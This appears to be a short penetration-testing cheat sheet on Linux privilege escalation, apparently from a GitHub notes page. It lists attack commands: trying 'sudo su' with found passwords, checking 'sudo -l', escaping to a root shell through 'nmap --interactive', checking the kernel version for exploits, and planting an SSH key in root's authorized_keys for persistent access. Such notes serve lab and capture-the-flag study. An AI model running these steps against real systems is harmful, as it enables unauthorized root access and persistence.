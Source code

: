 ### Privilege Escalation

#### If you have found any passwords on the machine, try running as root
```
sudo su
```
#### Check which commands sudo can run
``` 
sudo -l

# If you get something like 
# User asterisk may run the following commands on this host:
#    (root) NOPASSWD: /sbin/shutdown
#    (root) NOPASSWD: /usr/bin/nmap
# Google the application you can run as root, eg. nmap privilege escalation
sudo nmap --interactive
namp> !sh
``` 
#### Check which version/year of Linux for privesc exploits
```
uname -a
```

#### If you can modify files as root
#### Try to add ssh public key to root/.ssh/authorized_keys
```
# Generate ssh key pair
ssh-keygen -o

# Copy the public key
cat /root/.ssh/id_rsa.pub

# Paste it into your root/.ssh/authorized_keys file (create if necessary)
# Then try and access through ssh from attacking machine
ssh root@targetip
```
